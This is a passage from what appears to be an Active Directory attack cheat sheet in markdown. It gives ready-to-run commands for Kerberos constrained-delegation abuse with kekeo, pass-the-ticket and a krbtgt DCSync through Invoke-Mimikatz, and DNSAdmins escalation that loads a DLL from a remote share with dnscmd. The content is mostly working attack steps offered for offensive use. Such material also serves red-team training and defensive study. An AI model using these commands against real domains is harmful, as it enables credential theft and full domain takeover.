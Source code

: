 > > > > > 
> > > > > Keko# tgs::s4u /tgt:<TGTFilePAth> /user:Administrator@<DomainFQDN> /service:<cifs/machinename.DomainFQDN> 
> > > > > ```
> > > > >
> > > > > Inject Ticket to PTT 
> > > > >
> > > > > ```powershell
> > > > > Invoke-mimikatz -Command '"kerberos::ptt <TicketFilePAth>"'
> > > > > 
> > > > > klist
> > > > > 
> > > > > ls \\MachineName.DomanFQDN\C$
> > > > > ```
> > > > >
> > > > > :bulb: Abuse other services running under same account name is also possible because there is no SPN validation
> > > > >
> > > > > :eyes: Having access to a machine NTLM and this machine has AccessDelegation enabled, allows you to compromise the machine 
> > > > >
> > > > > ```powershell
> > > > > KEKO# tgt::ask /user:<machineNAme>$ /domain:<DomainFQDN> /rc4:<MachineNTLMHash>
> > > > > 
> > > > > KEKO# tgs::s4u /tgt:<TGTFilePAth> /user:<Administrator@<DomainFQDN> /service:<serviceNAme/DomainFQDN> | <serviceNAme{ldap}/DomainFQDN> 
> > > > > 
> > > > > Invoke-Mimikatz -Command '"kerberos::ptt <TGTFilePAth>"'
> > > > > 
> > > > > Klist
> > > > > 
> > > > > Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domainNAme>/krbtgt"'
> > > > > ```
> >
> > :two::three: DNSAdmin
> >
> > > :bulb: DNSAdmin Group memeber could load arbitrary DLL with the privileges of dns.exe (SYSTEM) 
> > >
> > > :information_desk_person: Needs privileges to restart DNS service 
> > >
> > > **Enumerate members of DNS Group**
> > >
> > > > **PowerView_dev** 
> > > >
> > > > > ```powershell
> > > > > Get-NetGroupMemeber -GroupName "DNSAdmins"
> > > > > ```
> > > >
> > > > **AD Module**
> > > >
> > > > > ```powershell
> > > > > Get-ADGroupMember -Identity DNSAdmins
> > > > > ```
> > >
> > > ***Compromise a member account***
> > >
> > > ***Exploit*** -- Using privileged DNSAdmin group member 
> > >
> > > > **Configure DLL using dnscmd.exe** ***(needs RSAT DNS)***
> > > >
> > > > > ```powershell
> > > > > dnscmd <DNSServerComputerNAme> /config /serverlevelplugindll \\<IP>\dll\mimilib.dll
> > > > > ```